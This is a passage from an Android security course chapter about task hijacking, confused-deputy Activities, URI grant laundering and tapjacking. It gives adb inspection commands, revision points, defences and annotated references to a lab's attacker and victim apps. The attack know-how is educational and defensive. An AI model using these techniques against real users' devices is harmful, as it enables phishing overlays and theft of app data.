  Android 11 / API 30 device it **failed**, because effective affinities are namespaced with the
  declaring app's uid — measured, not asserted. **Measure it on your device.**
- What namespacing does **not** fix: a cross-app start **without** `FLAG_ACTIVITY_NEW_TASK` puts the
  callee in the *caller's* task. Two packages, one task, measured on the same device.
- An Activity **cannot** learn who started it in any strong sense. `Binder.getCallingUid()` in
  `onCreate` returns your own uid. `getCallingActivity()` works only after `startActivityForResult`.
- The **confused deputy** is an exported Activity that forwards an Intent the caller supplied. It
  buys reachability into non-exported components and **launders URI grants**. Measured end to end,
  with a control at each step.
- **Tapjacking** is an overlay plus `FLAG_NOT_TOUCHABLE`. The platform sets `FLAG_WINDOW_IS_OBSCURED`
  and delivers the event anyway; `setFilterTouchesWhenObscured(true)` discards it. `FLAG_SECURE`
  solves the opposite problem and is not a substitute.
- **`onActivityResult` is an inbound IPC entry point wearing a callback's clothes.**
- **Honest severity:** task hijacking and tapjacking require a malicious app to be installed already.
  Say so in the finding title. The deputy family does not, which is why it rates higher.

### The chapter as one map



### Condensed cheat-sheet

| Question | Command or answer |
|---|---|
| Is task hijacking mitigated here? | `python3 -B scripts/task-affinity-map.py --check` |
| What tasks exist? | `adb shell "dumpsys activity activities" \| grep -E "^\s+\* Task\{"` |
| Which Activity is in which task? | `... \| grep "Hist #"` |
| Who started this Activity? | `... \| grep launchedFromPackage` |
| What is on screen? | `... \| grep ResumedActivity` |
| Tasks whose processes died? | `adb shell "dumpsys activity recents"` |
| Which app holds the overlay permission? | `adb shell "cmd appops query-op SYSTEM_ALERT_WINDOW allow"` |
| Whose window is on top? | `adb shell "dumpsys window windows" \| grep -E "Window\{\|mOwnerUid"` |
| Force `onNewIntent` on a `standard` Activity | `adb shell "am start --activity-single-top -n pkg/.A"` |
| Launch modes as ints in `dumpsys` | 0 standard, 1 singleTop, 2 singleTask, 3 singleInstance, 4 singleInstancePerTask |
| Affinity hardening | `<application android:taskAffinity="">` |
| Tapjacking defence | `view.setFilterTouchesWhenObscured(true)` |
| Screenshot/Recents defence | `FLAG_SECURE`, set **before** `setContentView` |
| Deputy fix | accept a selector; build the Intent from a class literal; carry nothing across |
| `FLAG_ACTIVITY_NEW_TASK` | `0x10000000` |
| `FLAG_ACTIVITY_FORWARD_RESULT` | `0x02000000` |
| `FLAG_GRANT_READ_URI_PERMISSION` | `0x00000001` |
| `MotionEvent.FLAG_WINDOW_IS_OBSCURED` | `0x1` (partially: `0x2`, API 29+) |

### Quick revision

- A task is a stack of Activities the user perceives as ... **one app — and that perception is not enforced.**
- `taskAffinity` defaults to ... **the package name.**
- The hardening value for `taskAffinity` is ... **the empty string.**
- Affinity is consulted only when ... **a task is being chosen or created.**
- `singleTop` reuses an instance only when it is ... **already at the top of the target task.**
- `singleTask` reuses the instance and ... **destroys everything above it, in the same task.**
- `singleInstance` puts the Activity ... **alone in its own task, which never accepts another.**
- `Binder.getCallingUid()` in `onCreate` returns ... **your own uid.**
- `getCallingActivity()` is non-null only after ... **`startActivityForResult`.**
- Task hijacking on the tested API 30 device ... **failed, because affinities are uid-namespaced.**
- The task attack that still works on API 30 is ... **a cross-app start without `FLAG_ACTIVITY_NEW_TASK`.**
- A confused deputy is an Activity that ... **starts an Intent somebody else wrote.**
- The flag that re-points the result channel outward is ... **`FLAG_ACTIVITY_FORWARD_RESULT`.**
- Tapjacking is defeated by ... **discarding obscured touches, because a warning can be covered.**
- `FLAG_SECURE` stops ... **capture of the screen — not input to it.**
- Task hijacking and tapjacking both require ... **the attacker's app to be installed already.**
- `adb shell am` always implies ... **`FLAG_ACTIVITY_NEW_TASK`, and cannot send a Parcelable extra.**
- A null cursor from a provider on API 30+ usually means ... **package visibility, not absence.**

---

## 14. References

Annotated. The full list, with a Related-chapters table, is in
[references/README.md](references/README.md).

### AOSP source

| Path | Why you would open it |
|---|---|
| `frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java` | The decision engine: resolution, `checkStartAnyActivityPermission`, `computeLaunchingTaskFlags`, `getReusableTask`, `recycleTask`. Everything in §3 happens here. |
| `frameworks/base/services/core/java/com/android/server/wm/ActivityRecord.java` | Where the effective task affinity — the uid-prefixed one measured in §3.7 — is derived from the parsed manifest value. |
| `frameworks/base/services/core/java/com/android/server/wm/Task.java` | The task object: the ordered list, `affinity`, `rootAffinity`, the base Intent. |
| `frameworks/base/services/core/java/com/android/server/wm/ActivityTaskManagerService.java` | The Binder endpoint; split out of `ActivityManagerService` in Android 10. |
| `frameworks/base/services/core/java/com/android/server/wm/RootWindowContainer.java`, `TaskDisplayArea.java` | Where tasks are searched for reuse on a display. |
| `frameworks/base/core/java/android/app/Activity.java` | The public API, and where `requestCode == -1` quietly decides whether `getCallingActivity()` will work. |
| `frameworks/base/core/java/android/app/Instrumentation.java` | `execStartActivity` — the funnel every start passes through, and the best single hook point. |
| `frameworks/base/core/java/android/app/ActivityThread.java` | The app-side receiver of launch transactions. |
| `frameworks/base/core/java/android/content/pm/ActivityInfo.java` | `LAUNCH_SINGLE_TASK` and friends; the *declared* `taskAffinity`. |
| `frameworks/base/core/java/android/view/View.java` | `onFilterTouchEventForSecurity` — the five lines that are the tapjacking defence. |
| `frameworks/base/core/java/android/view/MotionEvent.java` | `FLAG_WINDOW_IS_OBSCURED`, `FLAG_WINDOW_IS_PARTIALLY_OBSCURED`. |
| `frameworks/base/services/core/java/com/android/server/uri/UriGrantsManagerService.java` | Where the laundered grant of §5.3 is actually issued. |

### Official documentation

| Document | Why |
|---|---|
| [Tasks and the back stack](https://developer.android.com/guide/components/activities/tasks-and-back-stack) | The canonical description of `launchMode`, `taskAffinity` and the task model. Read it, then measure it — several of its statements are easy to misread, and §3.4 shows what the device actually does. |
| [The activity lifecycle](https://developer.android.com/guide/components/activities/activity-lifecycle) | The callback order in §3.1. |
| [`<activity>` manifest element](https://developer.android.com/guide/topics/manifest/activity-element) | Every attribute, with its API level. The audit is [32-Manifest §3.6](../32-Manifest/README.md). |
| [App security best practices — tapjacking](https://developer.android.com/privacy-and-security/security-best-practices) | The official statement of `filterTouchesWhenObscured`. |
| [Android Security Bulletins](https://source.android.com/docs/security/bulletin) | **The authoritative record for any CVE claim in this area.** Verify an ID and its affected-version range here before citing it. |
| [Package visibility on Android 11](https://developer.android.com/training/package-visibility) | The `<queries>` element behind the trap in §7.5. |

### Research

| Work | Why |
|---|---|
| "Towards Discovering and Understanding Task Hijacking in Android" — Ren, Zhang, Wang, Chen, Mao, USENIX Security 2015 | The systematic study that named and classified the whole family, including both the affinity and reparenting variants. Read this before writing about the class. |
| "StrandHogg" — Promon, 2019 | Vendor disclosure of in-the-wild exploitation of the affinity variant against banking apps. Treat the name as a label for a class. |
| "StrandHogg 2.0" — Promon, 2020, tracked as CVE-2020-0096 | A code-based variant needing no manifest declaration, therefore invisible to manifest scanners. **Verify the identifier and affected versions in the Android Security Bulletin for May 2020 before citing it.** |

### OWASP

| Identifier | Relevance |
|---|---|
| **MASVS-PLATFORM-3** — the app uses the user interface securely | This chapter's headline control: task hijacking, tapjacking, `FLAG_SECURE`, Recents snapshots. |
| **MASVS-PLATFORM-1** — the app uses IPC mechanisms securely | Exported Activities, the confused deputy, grant laundering, the result channel. |
| MASTG — testing for overlay attacks; testing deep links; testing task hijacking | The procedures the labs in §12 are written to satisfy with evidence. |

### Related chapters

| Chapter | Relationship |
|---|---|
| [09 — Android App Internals](../09-Android-App-Internals/README.md) | Introduces the four component types and points here for the task model. |
| [21 — App Sandbox](../21-App-Sandbox/README.md) | The uid isolation that makes "another app's data" mean something, and `SYSTEM_ALERT_WINDOW` as a special permission. |
| [23 — Permissions](../23-Permissions/README.md) | `protectionLevel`, and why `android:permission` on an Activity can be worthless. |
| [24 — IPC](../24-IPC/README.md) | The IPC map that places Activity starts among the other mechanisms. |
| [25 — Binder](../25-Binder/README.md) | The kernel identity stamp — demonstrated unforgeable — and why an Activity cannot use it. |
| [26 — Intent](../26-Intent/README.md) | **The message.** Resolution, the twelve fields, the redirection primitive, `PendingIntent`, deep-link verification. This chapter owns the component; 26 owns what arrives at it. |
| [27 — Content Providers](../27-ContentProviders/README.md) | **What a laundered grant is worth.** §5.3 stops at the moment the grant is issued; 27 continues. |
| [32 — Manifest](../32-Manifest/README.md) | **The declaration audit**, statically from an APK. This chapter contributes the runtime view that no manifest can show. |
| [71 — OWASP Mobile](../71-OWASP-Mobile/README.md) | Maps tapjacking and overlay findings to MASVS-PLATFORM-3. |
| [28 — Services](../28-Services/README.md) | Where an overlay window actually lives, and where a bound Service gets a real caller identity. |
| [29 — Broadcast Receivers](../29-BroadcastReceivers/README.md) | The other manifest-declared entry point. |
| [31 — Fragments](../31-Fragments/README.md) | Sub-screens, which have no task of their own — and the reflective loader that lets a caller choose one. |
| 43 — WebView | Where deep-link data reaching an Activity most often terminates. |

### This chapter's own artefacts

| File | What it is |
|---|---|
| [scripts/task-affinity-map.py](scripts/task-affinity-map.py) | Reads the live task graph from `dumpsys`, decides the affinity-namespacing verdict empirically, and flags squatted affinities, mixed-package tasks and risky launch modes. |
| [scripts/activity-trace.js](scripts/activity-trace.js) | Frida: traces starts with decoded task flags, arrivals with task placement and tiered caller identity, the result channel, and obscured touches. |
| [examples/DeputyActivity.java](examples/DeputyActivity.java) / [examples/DeputyActivityFixed.java](examples/DeputyActivityFixed.java) | The vulnerable deputy and its fixed counterpart, annotated. |
| [examples/victim-app/](examples/victim-app/AndroidManifest.xml) | The victim: one Activity per launch mode, a deputy, a non-exported Activity, a non-exported provider, and two consent screens. |
| [examples/hijacker-app/](examples/hijacker-app/AndroidManifest.xml) | The attacker: affinity squatting, the reparenting variant, a grant sink, a cross-task measuring instrument, and the overlay. |
| [examples/build.sh](examples/build.sh) | Builds both APKs out of tree with SDK build-tools and a JDK, and installs them — including the root fallback for devices that refuse `adb install`. |
| [cheatsheet.md](cheatsheet.md) · [mindmap.md](mindmap.md) · [faq.md](faq.md) | Dense reference, the full mind map, and the questions learners actually ask. |
